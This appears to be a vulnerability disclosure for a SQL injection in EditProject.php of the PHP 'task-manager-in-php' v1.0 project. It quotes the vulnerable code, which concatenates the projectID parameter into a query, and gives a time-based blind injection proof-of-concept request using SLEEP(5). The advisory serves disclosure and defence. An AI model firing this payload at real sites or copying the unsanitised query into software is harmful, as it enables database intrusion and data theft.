 # task-manager-in-php-sql1

https://code-projects.org/task-manager-in-php-with-source-code/

## NAME OF AFFECTED PRODUCT(S)

**task-manager-in-php**

## Vendor Homepage

https://code-projects.org/task-manager-in-php-with-source-code/

##  **Manufacturers sites**

https://code-projects.org/

## AFFECTED  VERSION(S)

### Vulnerable File

EditProject.php

### VERSION(S)

-  v1.0

### Software Link

https://download.code-projects.org/details/97b61777-5089-4b4f-841f-10e10be5859e

## PROBLEM TYPE

network remote.

## Vulnerability Type

sql injection

## Root Cause

EditProject.php file, SQL injection is used to obtain database information.

## Impact

## **Description of the vulnerability**

### EditProject.php

source code，the    projectID parameter is not filtered and concatenated into the SQL statement.                                                                                                                                                                                                                                                                                                                                                                                                                                                               

```php
$sql = "SELECT projectName, projectID, projectPrio FROM project WHERE projectID = '".$_GET['projectID']."'";
$edit = $conn -> query($sql);
$edit = $edit -> fetch_assoc();
```

![image-20240925103238931](https://github.com/mengcehn/CVE/blob/main/Snipaste_2024-09-25_10-36-50.png)

## **Vulnerability recurrence**

### **POC**

```
GET /EditProject.php?edit=1&projectID=1'+AND+(SELECT+3784+FROM+(SELECT(SLEEP(5)))ZvCJ)+AND+'qQab'='qQab HTTP/1.1
Host: 127.0.0.1
Content-Length: 0
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

```

![image-20240925103355243](C:\Users\13756\AppData\Roaming\Typora\typora-user-images\image-20240925103355243.png)

